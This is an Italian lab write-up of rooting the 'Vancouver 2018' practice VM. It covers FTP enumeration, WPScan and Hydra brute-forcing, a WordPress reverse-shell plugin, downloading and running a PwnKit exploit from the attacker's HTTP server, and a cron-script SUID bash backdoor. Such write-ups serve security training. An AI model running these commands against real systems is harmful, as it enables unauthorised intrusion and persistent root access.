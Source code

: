 # 🛡️ **Vancouver 2018 Exploitation Report**

## 📋 **Descrizione Generale**
Questa relazione racconta le quattro giornate intense di lavoro spese per sfruttare ogni singolo punto debole della VM assegnata. Non è stato un processo lineare, e spesso mi sono trovato a pensare di essermi incastrato in un vicolo cieco, ma alla fine ogni tentativo, errore e intuizione ha portato alla tanto desiderata shell **root**.

Questa storia è una combinazione di ostinazione, pazienza e, soprattutto, l'arte di sfruttare le vulnerabilità in posti che inizialmente sembravano insignificanti.

---

## ⚙️ **Configurazione dell'Ambiente**
1. **Importazione e Avvio della VM**:
   - Ho iniziato importando la VM in **VirtualBox/VMware**. L'avvio sembrava andare liscio, ma la vera battaglia stava per cominciare.

2. **Identificazione IP**:
   - Con una scansione rapida di rete usando **Nmap**, ho trovato l'indirizzo della macchina:
     ```bash
     nmap -sn 192.168.1.0/24
     ```
   - L'indirizzo IP della macchina target è emerso chiaramente: `192.168.1.170`.

---

## 🔍 **Fase di Scansione e Accesso Iniziale**

### 1️⃣ **Scansione delle Porte e Servizi**
Partiamo dalla base. Ho eseguito una scansione con **Nmap**, che mi ha rivelato un paio di servizi attivi:
- **Porta 80 (HTTP)**: un classico, un servizio web era in agguato.
- **Porta 21 (FTP)**: qualcosa di interessante da esplorare più a fondo.

Era solo l'inizio, ma già sapevo che FTP avrebbe rivelato qualcosa.

---

### 2️⃣ **Accesso FTP e la Prima Sorpresa**
Con un accesso FTP anonimo (chi è che lascia FTP così?), ho trovato il file **`users.txt.bk`**. 
Non è stato nulla di speciale, solo una lista di nomi utente, ma qui la pazienza è la chiave. Ogni pezzetto di informazione conta.

---

### 3️⃣ **WordPress: L'Inizio del Divertimento**
Inizialmente, con **Gobuster** non ero riuscito a individuare nulla di interessante. Tuttavia, controllando il file **robots.txt**, ho trovato un riferimento nascosto alla directory **/backup_wordpress**. 

Una volta scoperta questa directory, ho iniziato a mettere le mani nel servizio WordPress.

Per enumerare gli utenti e testare combinazioni di password comuni, ho lanciato **WPScan**:
   ```bash
   wpscan --url http://192.168.1.170/backup_wordpress --enumerate u --passwords rockyou.txt
   ```

Dopo lunghi minuti di attesa, ecco la combinazione perfetta:
- **Username**: `john`
- **Password**: `enigma`

Con queste credenziali, ho avuto accesso al pannello di WordPress. Qui ho caricato un **plugin malevolo** contenente una reverse shell. Finalmente, **www-data** era mio. Ma con un utente di basso livello, cosa potevo fare?

---

## 🔒 **Accesso Completo Tramite SSH**
La shell **www-data** sembrava una strada chiusa. (Ma più tardi eheh ci arriveremo) 
Prima di arrendermi in realtà con tutto quanto dalla frustrazione, ho deciso di provare un attacco **Hydra** sul servizio SSH usando la lista di utenti recuperati con poche speranze, finché mi imbatto in anne.

```bash
hydra -l anne -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.170
```

**EUREKA**:
- **Password**: `princess`

Con queste credenziali, ho effettuato il login SSH:
   ```bash
   ssh anne@192.168.1.170
   ```

A questo punto, la sorpresa: `anne` aveva i privilegi di **sudo** abilitati. Con un semplice comando:
   ```bash
   sudo su
   ```
   
Avevo ottenuto l'accesso **root** senza dover fare altro. Ma, ironia della sorte, non ho voluto fare **assolutamente nulla** con questo accesso root. 
Ho chiuso l'accesso SSH e sono tornato alla mia reverse shell caricata tramite  WordPress dove ero user di basso privilegio.

---

# 🏆 **Escalation dei Privilegi Alternativa**

E' stato qui che ho deciso di intraprendere nuove strade SENZA AUTENTICAZIONE che mi permettessero di raggiungere l'obiettivo, informandomi dunque sulle vulnerabilità della macchina target decisi di affrontare **PwnKit**. Ho sbattuto la testa nel tentativo di **compilare l'exploit** direttamente sulla macchina target e anche da Kali con le dipendenze necessarie teoricamente corrette. Dopo svariati errori e tentativi falliti, ho abbandonato l'idea della compilazione e sono passato alla soluzione più pratica: usare l'exploit **precompilato**.

---

### 1️⃣ **Kernel Exploit - PwnKit (CVE-2021-4034)**
Avevo sentito parlare di **PwnKit**. Era il momento di metterlo alla prova. 
Dopo aver scaricato il precompilato 32 bit:

1. Ho avviato un server HTTP sulla mia macchina Kali:
   ```bash
   python3 -m http.server 8080
   ```
2. Ho scaricato l'exploit precompilato sul target:
   ```bash
   wget http://192.168.1.165:8080/PwnKit32 -O /tmp/PwnKit32
   chmod +x /tmp/PwnKit32
   ```
3. Ho eseguito l'exploit:
   ```bash
   ./PwnKit32
   ```
4. **Magia pura**. Una volta eseguito, avevo accesso **root**:
   ```bash
   whoami
   ```
   **Output**: `root`.

![ROOTWITHPWNKIT](./ROOTWITHPWNKIT.png)

---

### 2️⃣ **Cron Job Exploit: L'Ultimo Colpo**
Per non farmi mancare nulla, ho individuato un cron job che eseguiva lo script **`/usr/local/bin/cleanup`** come **root**, ma con permessi **world-writable**. 

Ho pensato: "Questa è una porta spalancata!".

1. Ho modificato lo script per creare una **backdoor**:
   ```bash
   echo "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash" > /usr/local/bin/cleanup
   ```
2. Ho forzato l'esecuzione del cron job:
   ```bash
   /usr/local/bin/cleanup
   ```
3. Il risultato? Una shell **root** con **SetUID**:
   ```bash
   /tmp/rootbash -p
   ```

![CronJobs](./CronJobsSUCCESS.png)

---

## 🎯 **Conclusione**
Quattro giorni di lavoro, frustrazioni, caffè e ore perse a guardare uno schermo, ma alla fine è stato tutto ripagato.

### **Lezioni Imparate**:
- **Ogni piccolo dettaglio conta**. Un file FTP dimenticato può essere la chiave di tutto.
- **Non fermarsi ai primi ostacoli**. La shell **www-data** sembrava un vicolo cieco, ma invece ha aperto altre strade.
- **Mai sottovalutare i cron job**. Permessi sbagliati possono essere devastanti.
- **Verificare sempre i privilegi utente**. A volte la soluzione è più semplice di quanto sembri.
- **La pratica batte la teoria**. Saper aggirare problemi come compilazioni fallite è parte del gioco.

Questo lavoro è stato una vera battaglia contro la macchina, ma alla fine ho vinto. 

![Success](./RootSuccess.png)

🎉 **Missione Completata con Successo!** 🚀

